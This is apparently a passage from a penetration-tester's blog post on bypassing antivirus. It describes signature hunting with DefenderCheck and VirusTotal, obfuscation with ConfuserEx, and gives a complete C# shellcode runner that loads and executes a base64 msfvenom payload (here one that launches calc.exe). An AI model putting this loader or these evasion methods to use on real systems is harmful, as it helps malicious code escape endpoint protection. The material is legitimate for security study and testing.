 So let's try to bypass the first layer of AV: signature detection. My first attempt was to run my C# SharpHound.exe for example through [DefenderCheck](https://github.com/matterpreter/DefenderCheck), [Find-AVSignature](https://github.com/PowerShellMafia/PowerSploit/blob/master/AntivirusBypass/Find-AVSignature.ps1), and manual scans on [AntiScan.me](https://antiscan.me/) and [VirusTotal](https://www.virustotal.com/gui/) to try to find out what part of the code was triggering the AV software. Through trial and error, and going through smaller and smaller parts of the file, you can find out what strings trigger AV to refactor those string in Visual Studio, or change individual bytes of the executable. The downside of the last method is that it will most likely break the executable as assembly instructions are overwritten, and needs reverse engineering to figure out what exactly was changed and whether it can be fixed, which takes time and effort staring at disassembled binary code. Not great, we're lazy, and we'd have to do that for each AV software we want to bypass. Meh.

Another method, try to change the code so much that it doesn't look like anything anymore. I mean, try to obfuscate the code. Such tools as [ConfuserEx](https://github.com/mkaring/ConfuserEx) can do this for .Net applications. This works to a certain extent, and could have been enough some years ago, but nowadays still doesn't bypass any heuristics detection. Well, it was worth a try.

# Second approach: Homemade C# runner

My next attempt shames me a bit. But here's what I tried: I knew of shellcode runners to execute msfvenom generated payloads in C# thanks to WinAPI calls. The basic runner code looks like this:

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Net;
using System.Text;
using System.Threading;
using System.IO;

namespace Shellcode_Runner
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreatingFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            // msfvenom -p windows/exec cmd=calc.exe exitfunc=thread -a x64 -f base64
            string b64_payload = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu+AdKgpBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA";
            byte[] buf = System.Convert.FromBase64String(b64_payload);

            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            Thread.Sleep(10000);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
```